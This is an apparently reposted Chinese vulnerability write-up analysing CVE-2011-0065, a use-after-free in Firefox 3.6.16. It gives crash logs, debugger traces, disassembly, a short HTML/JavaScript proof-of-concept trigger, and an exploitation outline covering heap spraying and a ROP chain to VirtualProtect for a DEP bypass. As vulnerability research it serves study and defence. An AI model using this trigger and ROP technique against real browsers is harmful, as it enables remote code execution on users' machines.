

# Analysis CVE2011-0065-Firefox 3.6.16 mChannel use after free vulnerability

> 原文：[`www.pediy.com/kssd/pediy12/139044.html`](https://www.pediy.com/kssd/pediy12/139044.html)

**CVE2011-0065-Mozilla Firefox 3.6.16 mChannel use after free vulnerability**  
  
Author: instruder of Code Audit Labs of vulnhunt.com  
Time: 2011/8/19  
url:http://blog.vulnhunt.com/index.php/2011/08/22/analysis-cve-2011-0065/  
  
**1 Affected Prodects**  
  
软件版本：Mozilla Firefox 3.6.16  
CVE ID :2011-0065  
  
**2 Vulnerability Details**  
  
在 Firefox 3.6.16 中,mChannel 对象可以通过 OnChannelRedirect 这个方法来进行释放,但是释放之后,mChannel 变成了悬挂指针,在脚本执行完之后,又会被 nsObjectLoadingContent::LoadObject 这个函数中 mChannel->Cancel(NS\_BINDING\_ABORTED);  
进行使用,导致 use after free 漏洞.  
  
**3 Crash info**  
  

代码:

```
(a78.d94): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=0a0e3060 ebx=07ccc184 ecx=0a19f000 edx=0566a100 esi=804b0002 edi=80000000
eip=00857c64 esp=0013f714 ebp=0013f8cc iopl=0         nv up eiplzrnapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
<Unloaded\_Ed20.dll>+0x857c63:
00857c64 2003            and     byte ptr \[ebx\],al          ds:0023:07ccc184=50
0:000> kb
ChildEBPRetAddrArgs to Child              
WARNING: Frame IP not in any known module. Following frames may be wrong.
0013f710 1080df8e 0a0e3060 804b0002 00000000 <Unloaded\_Ed20.dll>+0x857c63
0013f8cc 1080e720 07ccc184 0858aab0 00000001 xul!nsObjectLoadingContent::LoadObject+0x108 
\[e:\\builds\\moz2\_slave\\win32\_build\\build\\content\\base\\src\\nsobjectloadingcontent.cpp @ 1081\]
0013f8fc 1080eadc 07ccc184 0013f9b4 00000001 xul!nsObjectLoadingContent::LoadObject+0xcd 
\[e:\\builds\\moz2\_slave\\win32\_build\\build\\content\\base\\src\\nsobjectloadingcontent.cpp @ 986\]
0013faa0 1080eb2a 07ccc160 00000001 10190b32 xul!nsHTMLObjectElement::StartObjectLoad+0x84 
\[e:\\builds\\moz2\_slave\\win32\_build\\build\\content\\html\\content\\src\\nshtmlobjectelement.cpp@ 456\]
0013faac 10190b32 00000001 09bcc600 09bcc600xul!nsHTMLObjectElement::DoneAddingChildren+0x17 
\[e:\\builds\\moz2\_slave\\win32\_build\\build\\content\\html\\content\\src\\nshtmlobjectelement.cpp@ 174\]
0013fac8 10191b42 00000048 00000000 00000000 xul!SinkContext::CloseContainer+0xd2  \[e:\\builds\\moz2\_slave\\win32\_build\\build\\content\\html\\document\\src\\nshtmlcontentsink.cpp @ 1018\]
0013fadc 100d873e 07ce80b8 00000048 00000000 xul!HTMLContentSink::CloseContainer+0x32 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\content\\html\\document\\src\\nshtmlcontentsink.cpp @ 2392\]
0013faf4 100d8501 00000048 00000000 09bcc600 xul!CNavDTD::CloseContainer+0x5e \[e:\\builds\\moz2\_slave\\win32\_build\\build\\parser\\htmlparser\\src\\cnavdtd.cpp @ 2762\]
0013fb24 100d8418 00000002 00000048 00000000 xul!CNavDTD::CloseContainersTo+0xd1 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\parser\\htmlparser\\src\\cnavdtd.cpp @ 2812\]
0013fb3c 1005c8f3 00000048 00000000 05261800 xul!CNavDTD::CloseContainersTo+0x38 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\parser\\htmlparser\\src\\cnavdtd.cpp @ 2954\]
0013fb58 1005c857 09bcc600 00000000 05261800 xul!CNavDTD::DidBuildModel+0x69 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\parser\\htmlparser\\src\\cnavdtd.cpp @ 397\]
0013fb70 100c1284 00000000 05261800 05261804 xul!nsParser::DidBuildModel+0x42 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\parser\\htmlparser\\src\\nsparser.cpp @ 1611\]
0013fb94 10042d6e 00000001 00000001 00000001 xul!nsParser::ResumeParse+0x124 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\parser\\htmlparser\\src\\nsparser.cpp @ 2381\]
0013fbb8 10042cdc 05261804 052e88ac 00000000 xul!nsParser::OnStopRequest+0x82 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\parser\\htmlparser\\src\\nsparser.cpp @ 3029\]
0013fbd8 1001e6f2 05261804 052e88ac 00000000 xul!nsDocumentOpenInfo::OnStopRequest+0x56 
\[e:\\builds\\moz2\_slave\\win32\_build\\build\\uriloader\\base\\nsuriloader.cpp @ 324\]
0013fbfc 100786f1 052e88ac 0529a920 00000000 xul!nsBaseChannel::OnStopRequest+0x55 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\netwerk\\base\\src\\nsbasechannel.cpp @ 681\]
0013fc1c 10070fd1 0081d560 056dd670 00817400 xul!nsInputStreamPump::OnStateStop+0x3f 
\[e:\\builds\\moz2\_slave\\win32\_build\\build\\netwerk\\base\\src\\nsinputstreampump.cpp @ 577\]
0013fc30 10035121 0529a924 07410b08 056dd660 xul!nsInputStreamPump::OnInputStreamReady+0x4c  \[e:\\builds\\moz2\_slave\\win32\_build\\build\\netwerk\\base\\src\\nsinputstreampump.cpp @ 402\]
0013fc40 100f4380 056dd660 0081d560 0013ff34 xul!nsOutputStreamReadyEvent::Run+0x1d \[e:\\builds\\moz2\_slave\\win32\_build\\build\\xpcom\\io\\nsstreamutils.cpp @ 192\]
0013fc68 100cf5ca 056dd660 00000001 0013fc88 xul!nsThread::ProcessNextEvent+0x230 \[e:\\builds\\moz2\_slave\\win32\_build\\build\\xpcom\\threads\\nsthread.cpp @ 527\]

Ps:具体调试的时候可以下载火狐的符号，或者自己编译源码(比较麻烦,debug 版没编译通过过)例如这样:
SRV\*e:\\symcache\\\*http://msdl.microsoft.com/download/symbols;SRV\*e:\\symcache\\\*http://symbols.mozilla.org/firefox  

```

  
**4 Analysis**  
  
分析上面的崩溃的堆栈信息,重启 windbg,下如下断点:  
代码:

```
0:000>bl
 0 e 10499052     0001 (0001)  0:\*\*\*\* xul!nsObjectLoadingContent::OnChannelRedirect
0:000>bpxul!nsObjectLoadingContent::LoadObject
Matched: 1080e653 xul!nsObjectLoadingContent::LoadObject (class nsAString\_internal \*, int, class nsCString \*, int)
Matched: 1080de86 xul!nsObjectLoadingContent::LoadObject (class nsIURI \*, int, class nsCString \*, int)
Ambiguous symbol error at 'xul!nsObjectLoadingContent::LoadObject'
0:000>bp 1080e653 
0:000>bp 1080de86

```

Poc 样本:  
代码:

```
<html>
<body>
<object id="d"><object>
<script type="text/javascript">
var e;
e=document.getElementById("d");
e.QueryInterface(Components.interfaces.nsIChannelEventSink).onChannelRedirect(null,new Object,0);
e.data = "";//没这个也行的，触发是在脚本执行完毕后,ps:实际测试是这样的：)

</script>
</body>
</html>

```

执行 poc 样本.windbg 断在 onChannelRedirect 函数.  
  
代码:

```
Breakpoint 1 hit
eax=00000003 ebx=0013ef98 ecx=052e9018 edx=109f5228 esi=051c5718 edi=00000000
eip=10499052 esp=0013eca8 ebp=0013ecc8 iopl=0         nv up eiplzrnapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
xul!nsObjectLoadingContent::OnChannelRedirect:
10499052 8b4c2408        movecx,dwordptr \[esp+8\] ss:0023:0013ecb0=00000000
0:000>ddesp+8
0013ecb0  00000000 057369f0 00000000 00897640//第一个参数 null 第二个参数 new Object，第三个参数 0 记住这个 057369f0,后面用到
0013ecc0  00000000 0013ef68 0013ef68 10129438
0013ecd0  052e9018 00000003 00000003 0013ed80
0013ece0  005092f0 054f9c80 00000000 00379b06
0013ecf0  06060b0c 00000000 030c0ecc 008af0e0
0013ed00  06799403 051c5718 00379def 07122024
0013ed10  052e9018 00000003 0013ed80 00000001
0013ed20  087d1934 80570009 07dcd340 05736460

这个函数汇编代码
xul!nsObjectLoadingContent::OnChannelRedirect:
10499052 8b4c2408        movecx,dwordptr \[esp+8\]//aOldChannel
10499056 56              push    esi
10499057 8b742408        movesi,dwordptr \[esp+8\]//aNewChannel
1049905b 3b4e1c          cmpecx,dwordptr \[esi+1Ch\]//mChannel=0
1049905e 7407          je      xul!nsObjectLoadingContent::OnChannelRedirect+0x15 (10499067)//跳
10499060 b802004b80      mov     eax,804B0002h
10499065 eb1a            jmpxul!nsObjectLoadingContent::OnChannelRedirect+0x2f (10499081)
10499067 8b4624          moveax,dwordptr \[esi+24h\] ds:0023:052e903c=00000000//mClassifier
1049906a 85c0            test    eax,eax
1049906c 57              push    edi
1049906d 8b7c2414        movedi,dwordptr \[esp+14h\]
10499071 7408            je      xul!nsObjectLoadingContent::OnChannelRedirect+0x29 (1049907b)//跳
10499073 8b10            movedx,dwordptr \[eax\]
10499075 57              push    edi
10499076 51              push    ecx
10499077 50              push    eax
10499078 ff5210          call    dwordptr \[edx+10h\]
1049907b 897e1c          movdwordptr \[esi+1Ch\],edi //0 写入 mChannel

对应源码：
NS\_IMETHODIMP
nsObjectLoadingContent::OnChannelRedirect(nsIChannel \*aOldChannel,
nsIChannel \*aNewChannel,
                                          PRUint32    aFlags)
{
  // If we're already busy with a new load, cancel the redirect
if (aOldChannel != mChannel) {
return NS\_BINDING\_ABORTED;
  }
if (mClassifier) {
mClassifier->OnRedirect(aOldChannel, aNewChannel);
  }
mChannel = aNewChannel;
return NS\_OK;
}

```

从上述源码可知,利用 new object 来替换 mChannel,而 new Object 这个对象会在 js 函数 onChannelRedirect 执行完就会被释放(可以再这个 js 函数执行后紧跟一个申请内存的操作,大小和 new object 一样,即可站位 mChannel :).  
  
代码:

```
F5 继续执行,firefox 里面有 2 个 LoadObject 函数
先执行原型为 nsresult
nsObjectLoadingContent::LoadObject(nsIURI\* aURI,
PRBoolaNotify,
constnsCString&aTypeHint,
PRBoolaForceLoad)
的 LoadObject,执行后,又跳到原型为 nsresult
nsObjectLoadingContent::LoadObject(constnsAString&aURI,
PRBoolaNotify,
constnsCString&aTypeHint,
PRBoolaForceLoad)
函数,再次跳到 nsObjectLoadingContent::LoadObject(nsIURI\* aURI,
PRBoolaNotify,
constnsCString&aTypeHint,
PRBoolaForceLoad)
函数执行:
nsresult
nsObjectLoadingContent::LoadObject(nsIURI\* aURI,
PRBoolaNotify,
constnsCString&aTypeHint,
PRBoolaForceLoad)

{  …..
  // From here on, we will always change the content. This means that a
  // possibly-loading channel should be aborted.
if (mChannel) {
LOG(("OBJLC \[%p\]: Cancelling existing load\\n", this));

if (mClassifier) {
mClassifier->Cancel();
mClassifier = nsnull;
    }

    // These three statements are carefully ordered:
    // - onStopRequest should get a channel whose status is the same as the
    //   status argument
    // - onStopRequest must get a non-null channel
mChannel->Cancel(NS\_BINDING\_ABORTED);//exploit
if (mFinalListener) {
      // NOTE: Since mFinalListener is only set in onStartRequest, which takes
      // care of calling mFinalListener->OnStartRequest, mFinalListener is only
      // non-null here if onStartRequest was already called.
mFinalListener->OnStopRequest(mChannel, nsnull, NS\_BINDING\_ABORTED);
mFinalListener = nsnull;
    }
mChannel = nsnull;
  })
  …
}
汇编代码:
1080df61 837b5000        cmpdwordptr \[ebx+50h\],0
1080df65 7456            je      xul!nsObjectLoadingContent::LoadObject+0x137 (1080dfbd)
1080df67 8d7358          lea     esi,\[ebx+58h\]
1080df6a 8b06            moveax,dwordptr \[esi\]  ds:0023:052e903c=00000000
1080df6c 85c0            test    eax,eax
1080df6e 740f            je      xul!nsObjectLoadingContent::LoadObject+0xf9 (1080df7f)
1080df70 8b08            movecx,dwordptr \[eax\]
1080df72 50              push    eax
1080df73 ff5114          call    dwordptr \[ecx+14h\]
1080df76 33d2            xoredx,edx
1080df78 8bce            movecx,esi
1080df7a e841da91ff      call    xul!nsCOMPtr\_base::assign\_with\_AddRef (1012b9c0)
1080df7f 8b4350          moveax,dwordptr \[ebx+50h\]
1080df82 8b08            movecx,dwordptr \[eax\]
1080df84 be02004b80      mov     esi,804B0002h
1080df89 56              push    esi
1080df8a 50              push    eax
1080df8b ff5118          call    dwordptr \[ecx+18h\]
1080df8e 8d4b38          lea     ecx,\[ebx+38h\]
1080df91 e85210b0ff      call    xul!nsCOMPtr<nsIPrefBranch>::operator nsIPrefBranch \* (1030efe8)
….

```

单步日志  
代码:

```
0:000> t
eax=0514f000 ebx=052e8fe4 ecx=08d1aad0 edx=054fee50 esi=052e9038 edi=80000000
eip=1080df5b esp=0013f720 ebp=0013f8cc iopl=0         nv up eiplnznapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
xul!nsObjectLoadingContent::LoadObject+0xd5:
1080df5b 0f84bf060000    je      xul!nsObjectLoadingContent::LoadObject+0x79a (1080e620) \[br=0\]
0:000> t
eax=0514f000 ebx=052e8fe4 ecx=08d1aad0 edx=054fee50 esi=052e9038 edi=80000000
eip=1080df61 esp=0013f720 ebp=0013f8cc iopl=0         nv up eiplnznapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
xul!nsObjectLoadingContent::LoadObject+0xdb:
1080df61 837b5000        cmpdwordptr \[ebx+50h\],0 ds:0023:052e9034=057369f0
//判断 mChannel 是否为 0
0:000>dd 057369f0
057369f0  00000000 00000000 00000000 00000000
05736a00  00000000 00000000 00000000 00000000
05736a10  00000007 05737e20 05742268 00000016
05736a20  00000001 00000004 00353131 04cd63e0
05736a30  6e6f6e61 756f6d79 06750073 054d8480
05736a40  10a58be0 00000001 054cf288 00000016
05736a50  00000007 05737f00 05742a48 00000016
05736a60  00000001 00000001 054cf580 00000000
0:000> t
eax=0514f000 ebx=052e8fe4 ecx=08d1aad0 edx=054fee50 esi=052e9038 edi=80000000
eip=1080df67 esp=0013f720 ebp=0013f8cc iopl=0         nv up eiplnznapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
xul!nsObjectLoadingContent::LoadObject+0xe1:
1080df67 8d7358          lea     esi,\[ebx+58h\]
0:000> t
Breakpoint 5 hit
eax=0514f000 ebx=052e8fe4 ecx=08d1aad0 edx=054fee50 esi=052e903c edi=80000000
eip=1080df6a esp=0013f720 ebp=0013f8cc iopl=0         nv up eiplnznapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
xul!nsObjectLoadingContent::LoadObject+0xe4:
1080df6a 8b06            moveax,dwordptr \[esi\]  ds:0023:052e903c=00000000
////获取 mClassifier
0:000> t
Breakpoint 6 hit
eax=00000000 ebx=052e8fe4 ecx=08d1aad0 edx=054fee50 esi=052e903c edi=80000000
eip=1080df6e esp=0013f720 ebp=0013f8cc iopl=0         nv up eiplzrnapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
xul!nsObjectLoadingContent::LoadObject+0xe8:
1080df6e 740f            je      xul!nsObjectLoadingContent::LoadObject+0xf9 (1080df7f) \[br=1\]//跳
0:000> t
Breakpoint 3 hit
eax=00000000 ebx=052e8fe4 ecx=08d1aad0 edx=054fee50 esi=052e903c edi=80000000
eip=1080df7f esp=0013f720 ebp=0013f8cc iopl=0         nv up eiplzrnapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
xul!nsObjectLoadingContent::LoadObject+0xf9:
1080df7f 8b4350          moveax,dwordptr \[ebx+50h\] ds:0023:052e9034=057369f0
0:000>dd 057369f0 
057369f0  00000000 00000000 00000000 00000000//注意这个地址就是前面 xul!nsObjectLoadingContent::OnChannelRedirect 的第二个参数地址，Object 被释放了
05736a00  00000000 00000000 00000000 00000000
05736a10  00000007 05737e20 05742268 00000016
05736a20  00000001 00000004 00353131 04cd63e0
05736a30  6e6f6e61 756f6d79 06750073 054d8480
05736a40  10a58be0 00000001 054cf288 00000016
05736a50  00000007 05737f00 05742a48 00000016
05736a60  00000001 00000001 054cf580 00000000
0:000> t
(ff4.c50): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=057369f0 ebx=052e8fe4 ecx=00000000 edx=054fee50 esi=804b0002 edi=80000000
eip=1080df8b esp=0013f718 ebp=0013f8cc iopl=0         nv up eiplzrnapenc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00210246
xul!nsObjectLoadingContent::LoadObject+0x105:
1080df8b ff5118          call    dwordptr \[ecx+18h\]  ds:0023:00000018=????????

```

**5 Exploit**  
  
**5.1 How to exploit**  
通过传递给 onChannelRedirect 第二个参数 new object,替换 mChannel,函数执行完后,new object 被释放,紧跟着申请大小一致的内存,站位 mChannel,如下:  
e = document.getElementById("d");  
e.QueryInterface(Components.interfaces.nsIChannelEventSink).onChannelRedirect(null,new Object,0)  
fake\_obj\_addr = unescape("\\x1c")  
  
这样 0c0c001c 就会站位 new object,在 1080df82 地址时,\[eax\]=0c0c001c,然后通过申请大量内存,覆盖 0c0c0c0c 地址,脚本执行完之后,通过调用 LoadObject 函数,在 1080df8b 地址处 call    dwordptr \[ecx+18h\]既可以触发 shellcode 的执行.  
  
**5.2 DEP PASS**  
由于并没找到原始 poc 上面的 rop 地址,于是自己在 poc 的 sc 变量前面加了很多的’AAAAAAAAAA’，然后自己调试，找到了一组 rop 序列  
代码:

```
Rop 序列 shell32.dll)
7D66A4E8    8B49 0C         MOV ECX,DWORD PTR DS:\[ECX+C\]
7D66A4EB    8B01            MOV EAX,DWORD PTR DS:\[ECX\]
7D66A4ED    52              PUSH EDX
7D66A4EE    51              PUSH ECX
7D66A4EF    FF50 14         CALL DWORD PTR DS:\EAX+14\
\====
0x65e3ffae : # PUSH ECX # POP ESP # POP EBP (GR99D3~1.DLL)(immedebug 的 mona 脚本找的)
\====
5DDBC012    83C4 14               ADD ESP,14(mshtml.dll)
5DDBC015    C3                    RETN//返回到 VirtualProtect 函数
\====
执行 VirtualProtect 后返回到
0c0C0084 开始执行 shellcode

```

  
**6 Vulnerability demo**  
  
  
  
**7 POC**  
见附件下 exploit.html  
  
Firefox 3.6.16 OBJECT mChannel Remote Code Execution Exploit (DEP bypass.rar\[解压密码是：pediy\] 